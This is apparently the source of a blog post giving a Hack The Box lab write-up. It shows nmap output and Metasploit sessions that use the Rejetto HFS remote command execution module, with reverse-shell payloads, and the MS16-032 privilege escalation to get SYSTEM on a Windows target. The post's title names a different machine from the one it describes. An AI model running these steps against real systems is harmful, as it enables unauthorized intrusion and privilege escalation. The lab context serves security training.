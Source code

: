```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available.
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="ffff00">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="RoyalBlue">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter > sysinfo
<br>Computer        : OPTIMUM
<br>OS              : Windows 2012 R2 (Build 9600).
<br>Architecture    : x64
<br>System Language : el_GR
<br>Domain          : HTB
<br>Logged On Users : 1
<br>Meterpreter     : x64/windows
<br>meterpreter ></p> 

</div>
</font>
<br>Now we have the user _Kostas_ access, the target machine is running windows 2012 x64 so we can try MS16-032 exploit.
<br>[MS16-032 Secondary Logon Handle Privilege Escalation](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)
<br>**Exploit Description:-**:- This module exploits the lack of sanitization of standard handles in Windows' Secondary Logon Service. The vulnerability is known to affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This module will only work against those versions of Windows with Powershell 2.0 or later and systems with two or more CPU cores.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf exploit(<font color="red">rejetto_hfs_exec</font>) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set TARGET 1
<br>TARGET => 1
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms16_032_secondary_logon_handle_privesc</font>) > exploit</p> 

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Writing payload file, C:\Users\kostas\Desktop\xHWLMuJ.txt...
<br><font color="RoyalBlue">[*]</font> Compressing script contents...
<br><font color="53E100">[+] Compressed size: 3584
<br><font color="RoyalBlue">[*]</font> Executing exploit script...
<br><font color="RoyalBlue">[*]</font> Command shell session 2 opened (10.10.*.*:4444 -> 10.10.10.8:49164) at 2017-12-19 16:53:33 -0500</p>


<p>^C[-] Error while running command exploit: 
<br>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -l</p>

<p>Active sessions
<br>===============</p>

<p>  Id  Type                     Information               Connection
<br>  --  ----                     -----------               ----------
<br>  1   meterpreter x64/windows  OPTIMUM\kostas @ OPTIMUM  10.10.*.*:4455 -> 10.10.10.8:49162 (10.10.10.8)
<br>  2   shell x64/windows                                  10.10.*.*:4444 -> 10.10.10.8:49164 (10.10.10.8)</p>

<p>msf exploit(ms16_032_secondary_logon_handle_privesc) > sessions -i 2
<br>[*] Starting interaction with 2...</p>

<p>Microsoft Windows [Version 6.3.9600]
<br>(c) 2013 Microsoft Corporation. All rights reserved.</p>

<p>C:\Users\kostas\Desktop>whoami
<br>whoami
<br>nt authority\system</p>

<br>C:\Users\kostas\Desktop>


</div>
</font>
